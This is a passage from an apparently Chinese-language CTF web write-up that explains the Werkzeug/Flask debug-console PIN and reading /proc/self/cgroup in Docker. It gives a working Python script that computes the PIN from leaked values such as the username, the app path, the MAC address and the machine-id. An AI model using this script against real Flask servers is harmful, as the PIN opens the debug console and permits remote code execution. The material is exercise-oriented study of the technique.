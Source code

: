 但由于平台docker环境不同，读`/proc/self/cgroup`你会发现得到的是`0::/`，那就是没有值呗，为什么好多同学会看某个博客说的是因为被过滤了去读其它的文件？

这是 flask 读取该值的逻辑

![image-20230510233134632](Web_Writeup.assets/image-20230510233134632.png)

脚本

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'minictfer'# username  /proc/self/environ /etc/passwd
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.9/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892357',# /sys/class/net/eth0/address
    '0e3f1348-aaee-4680-ae33-6b3d626a9c91'
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
            continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

rv=None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)
```
